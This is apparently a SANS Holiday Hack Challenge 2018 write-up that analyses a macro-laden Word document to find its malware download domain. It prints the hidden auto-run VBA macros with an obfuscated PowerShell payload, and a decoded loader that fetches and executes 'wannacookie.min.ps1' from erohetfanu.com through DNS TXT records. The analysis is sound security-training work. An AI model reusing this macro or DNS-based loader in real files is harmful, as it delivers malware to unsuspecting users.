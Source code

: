 Question 10: Identify the Domain
================================

| After completing the prior question, Alabaster gives you a document he suspects downloads the malware. What is the domain name the malware in the document downloads from?

Answer: *erohetfanu.com*

Solution
--------
.. note::
 The document from Alabaster can be downloaded using: https://www.holidayhackchallenge.com/2018/challenges/CHOCOLATE_CHIP_COOKIE_RECIPE.zip
 The password for the archive is ``elves``


Step 1: Analyse the document
^^^^^^^^^^^^^^^^^^^^^^^^^^^^
The environment we used to analyse the document was a virtual machine with the Kali Linux 2018.4 operating system. 

.. note::

  **Kali Linux 2018.4** had an issue unarchiving the document from the ZIP file using the **unzip** application. In turn, the **olevba** application also couldn't analyse the document while it was still within the zip archive. We solved this issue by extracting the ``CHOCOLATE_CHIP_COOKIE_RECIPE.docm`` file from the zip archive using the **7z** application and analysing the document outside of the archive.

We used the following command to analyse the document: ``olevba CHOCOLATE_CHIP_COOKIE_RECIPE.docm``.

.. note::

 **olevba** is a python script to parse OLE and OpenXML files such as MS Office documents (e.g. Word, Excel), to detect VBA Macros, extract their source code in clear text, decode malware obfuscation (Hex/Base64/StrReverse/Dridex) and detect security-related patterns such as auto-executable macros, suspicious VBA keywords used by malware, and potential IOCs (IP addresses, URLs, executable filenames, etc).

Our output from olevba consisted of the following:

.. code-block:: none
 :emphasize-lines: 19, 29

 olevba 0.53.1 - http://decalage.info/python/oletools
 Flags        Filename                                                         
 -----------  -----------------------------------------------------------------
 OpX:MASI---- CHOCOLATE_CHIP_COOKIE_RECIPE.docm
 ===============================================================================
 FILE: CHOCOLATE_CHIP_COOKIE_RECIPE.docm
 Type: OpenXML
 -------------------------------------------------------------------------------
 VBA MACRO ThisDocument.cls 
 in file: word/vbaProject.bin - OLE stream: u'VBA/ThisDocument'
 - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
 (empty macro)
 -------------------------------------------------------------------------------
 VBA MACRO Module1.bas 
 in file: word/vbaProject.bin - OLE stream: u'VBA/Module1'
 - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
 Private Sub Document_Open()
 Dim cmd As String
 cmd = "powershell.exe -NoE -Nop -NonI -ExecutionPolicy Bypass -C ""sal a New-Object; iex(a IO.StreamReader((a IO.Compression.DeflateStream([IO.MemoryStream][Convert]::FromBase64String('lVHRSsMwFP2VSwksYUtoWkxxY4iyir4oaB+EMUYoqQ1syUjToXT7d2/1Zb4pF5JDzuGce2+a3tXRegcP2S0lmsFA/AKIBt4ddjbChArBJnCCGxiAbOEMiBsfSl23MKzrVocNXdfeHU2Im/k8euuiVJRsZ1Ixdr5UEw9LwGOKRucFBBP74PABMWmQSopCSVViSZWre6w7da2uslKt8C6zskiLPJcJyttRjgC9zehNiQXrIBXispnKP7qYZ5S+mM7vjoavXPek9wb4qwmoARN8a2KjXS9qvwf+TSakEb+JBHj1eTBQvVVMdDFY997NQKaMSzZurIXpEv4bYsWfcnA51nxQQvGDxrlP8NxH/kMy9gXREohG'),[IO.Compression.CompressionMode]::Decompress)),[Text.Encoding]::ASCII)).ReadToEnd()"" "
 Shell cmd
 End Sub

 -------------------------------------------------------------------------------
 VBA MACRO NewMacros.bas 
 in file: word/vbaProject.bin - OLE stream: u'VBA/NewMacros'
 - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
 Sub AutoOpen()
 Dim cmd As String
 cmd = "powershell.exe -NoE -Nop -NonI -ExecutionPolicy Bypass -C ""sal a New-Object; iex(a IO.StreamReader((a IO.Compression.DeflateStream([IO.MemoryStream][Convert]::FromBase64String('lVHRSsMwFP2VSwksYUtoWkxxY4iyir4oaB+EMUYoqQ1syUjToXT7d2/1Zb4pF5JDzuGce2+a3tXRegcP2S0lmsFA/AKIBt4ddjbChArBJnCCGxiAbOEMiBsfSl23MKzrVocNXdfeHU2Im/k8euuiVJRsZ1Ixdr5UEw9LwGOKRucFBBP74PABMWmQSopCSVViSZWre6w7da2uslKt8C6zskiLPJcJyttRjgC9zehNiQXrIBXispnKP7qYZ5S+mM7vjoavXPek9wb4qwmoARN8a2KjXS9qvwf+TSakEb+JBHj1eTBQvVVMdDFY997NQKaMSzZurIXpEv4bYsWfcnA51nxQQvGDxrlP8NxH/kMy9gXREohG'),[IO.Compression.CompressionMode]::Decompress)),[Text.Encoding]::ASCII)).ReadToEnd()"" "
 Shell cmd
 End Sub

 +------------+-----------------+-----------------------------------------+
 | Type       | Keyword         | Description                             |
 +------------+-----------------+-----------------------------------------+
 | AutoExec   | AutoOpen        | Runs when the Word document is opened   |
 | AutoExec   | Document_Open   | Runs when the Word or Publisher         |
 |            |                 | document is opened                      |
 | Suspicious | Shell           | May run an executable file or a system  |
 |            |                 | command                                 |
 | Suspicious | powershell      | May run PowerShell commands             |
 | Suspicious | ExecutionPolicy | May run PowerShell commands             |
 | Suspicious | New-Object      | May create an OLE object using          |
 |            |                 | PowerShell                              |
 | IOC        | powershell.exe  | Executable file name                    |
 +------------+-----------------+-----------------------------------------+

The two emphasised lines in the code block shown above were identical. An examination of this PowerShell code revealed that it decoded (base64) then uncompressed the encoded string to create some new code. This new code was then executed. Our aim was to analyse this new code without executing it. We modified the code returned by olevba so that it stored the decoded/uncompressed string in a file called ``WannacookieLoader.ps1`` without executing the new code. The code we created to do this is shown below:

.. code-block:: powershell

 powershell.exe -ExecutionPolicy Bypass -C "sal a New-Object; (a IO.StreamReader((a IO.Compression.DeflateStream([IO.MemoryStream][Convert]::FromBase64String('lVHRSsMwFP2VSwksYUtoWkxxY4iyir4oaB+EMUYoqQ1syUjToXT7d2/1Zb4pF5JDzuGce2+a3tXRegcP2S0lmsFA/AKIBt4ddjbChArBJnCCGxiAbOEMiBsfSl23MKzrVocNXdfeHU2Im/k8euuiVJRsZ1Ixdr5UEw9LwGOKRucFBBP74PABMWmQSopCSVViSZWre6w7da2uslKt8C6zskiLPJcJyttRjgC9zehNiQXrIBXispnKP7qYZ5S+mM7vjoavXPek9wb4qwmoARN8a2KjXS9qvwf+TSakEb+JBHj1eTBQvVVMdDFY997NQKaMSzZurIXpEv4bYsWfcnA51nxQQvGDxrlP8NxH/kMy9gXREohG'),[IO.Compression.CompressionMode]::Decompress)),[Text.Encoding]::ASCII)).ReadToEnd() | Out-File E:\Temp\WannacookieLoader.ps1"

We ran the above code using Windows PowerShell ISE in a Windows 10 virtual machine. The following code snippet shows the contents of the output (``WannacookieLoader.ps1``) after some modifications for better readability:

.. code-block:: powershell
 :linenos:

  function H2A($a) {
    $o; $a -split '(..)' | ? { $_ }  | forEach {[char]([convert]::toint16($_,16))} | forEach {$o = $o + $_}
    return $o
  }
  $f = "77616E6E61636F6F6B69652E6D696E2E707331"
  $h = ""
  foreach ($i in 0..([convert]::ToInt32((Resolve-DnsName -Server erohetfanu.com -Name "$f.erohetfanu.com" -Type TXT).strings, 10)-1)) {
    $h += (Resolve-DnsName -Server erohetfanu.com -Name "$i.$f.erohetfanu.com" -Type TXT).strings
  }
  iex($(H2A $h | Out-string))

We performed a HEX -> ASCII translation on the string in line 5 to create the following table:

============ ======================================
Item              Value
============ ======================================
Decoded text wannacookie.min.ps1
string       77616E6E61636F6F6B69652E6D696E2E707331
============ ======================================

Examining ``WannacookieLoader.ps1`` showed that its purpose was to download the Wannacookie malware (``wannacookie.min.ps1``) via a clever use of DNS TXT records.

The above script also provided us with the domain name from which the malware was downloaded from: ``erohetfanu.com``

